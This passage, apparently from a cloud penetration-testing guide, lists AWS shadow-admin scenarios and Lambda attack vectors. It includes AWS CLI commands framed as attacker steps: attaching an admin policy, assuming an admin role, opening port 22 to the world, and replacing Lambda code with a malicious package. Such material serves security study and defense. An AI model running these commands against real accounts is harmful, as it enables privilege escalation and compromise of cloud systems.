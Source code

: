 #### Shadow Admin Identification
- **Policy Analysis**: Analyze combined effect of multiple policies
- **Transitive Permissions**: Permissions gained through service roles
- **Cross-Service Access**: Administrative access through service integrations
- **Implicit Permissions**: Permissions not explicitly granted but available

#### Common Shadow Admin Scenarios
```bash
# User with permission to modify IAM policies
aws iam put-user-policy --user-name target-user --policy-name admin-policy --policy-document file://admin-policy.json

# User with permission to assume administrative roles
aws sts assume-role --role-arn arn:aws:iam::123456789012:role/admin-role --role-session-name shadow-admin

# User with permission to modify security groups
aws ec2 authorize-security-group-ingress --group-id sg-12345678 --protocol tcp --port 22 --cidr 0.0.0.0/0
```

### Attacks on AWS Lambda

#### Lambda Attack Vectors
- **Code Injection**: Injecting malicious code into Lambda functions
- **Privilege Escalation**: Exploiting Lambda execution roles
- **Data Exfiltration**: Accessing sensitive data through Lambda
- **Denial of Wallet**: Causing excessive Lambda invocations

#### Lambda Enumeration and Exploitation
```bash
# List Lambda functions
aws lambda list-functions

# Get function code
aws lambda get-function --function-name function-name

# Invoke function with malicious payload
aws lambda invoke --function-name function-name --payload '{"malicious": "payload"}' output.txt

# Update function code
aws lambda update-function-code --function-name function-name --zip-file fileb://malicious.zip
```

#### Lambda Security Issues
- **Environment Variables**: Secrets stored in environment variables
- **Overprivileged Roles**: Lambda functions with excessive permissions
- **VPC Configuration**: Network access and security group misconfigurations
- **Dead Letter Queues**: Sensitive data in error queues

### AWS IAM Privilege Escalation Techniques
